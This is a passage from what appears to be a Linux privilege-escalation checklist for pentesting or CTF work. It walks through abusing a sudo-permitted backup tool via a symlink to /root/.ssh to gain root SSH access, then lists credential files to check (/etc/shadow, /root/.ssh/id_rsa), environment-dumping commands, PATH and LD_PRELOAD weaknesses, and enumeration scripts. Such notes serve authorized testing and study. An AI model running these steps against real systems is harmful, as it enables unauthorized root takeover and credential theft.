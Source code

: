 	## Getting ready
	### ON TARGET MACHINE
	# you have to import the newly downloaded encryption key :)
	sudo /usr/bin/safe-backup --import-key /path/where/is/key.safe
	# When decrypting files, safe-backup creates # a new directory
	# with the same name as the backup but without the .bua extension.
	# If this directory already exists, the existing directory is used
	#rather than a new one being created. We can exploit this by
	# creating a symbolic link to /root/.ssh and having safe-backup
	# decrypt folders into this directory.
	ln -s /root/.ssh /path/where/is/-root-.ssh
	
	## Exploitation
	### ON TARGET MACHINE
	sudo safe-backup -d /path/where/is/-root-.ssh.bua
	### ON ATTACKING MACHINE
	sudo ssh -i /root/.ssh/id_rsa root@$IP
	```
- [ ] Any accessible sensitive file?
	- [ ] /etc/passwd
	- [ ] /etc/shadow
	- [ ] /etc/sudoers
	- [ ] Configuration files
	- [ ] /root/.ssh/id_rsa
	- [ ] entire root folder
	- [ ] Check env info
		 ```bash
		 (env || set) 2>/dev/null
		 echo $PATH
		 ```
- [ ] Writeable PATH
	- [ ] Root $PATH writeable
	- [ ] Directory in PATH writeable
- [ ] LD_PRELOAD set in /etc/sudoers
- [ ] Nothing yet? Google-Fu the web to look for other checklists
### Automation
If you are running out of time, automation could save you, but bear in mind that it's not stealthy at all (not this time).
This is a non comprehensive list of linux privesc automated script, to gain a better result try run different scripts on the same target:
- [ ] [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) (Linux local privilege Escalation Awesome Script)
- [ ] [LinEnum](https://github.com/rebootuser/LinEnum)
- [ ] [LES2](https://github.com/jondonas/linux-exploit-suggester-2) (Linux Exploit Suggester 2)
- [ ] [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
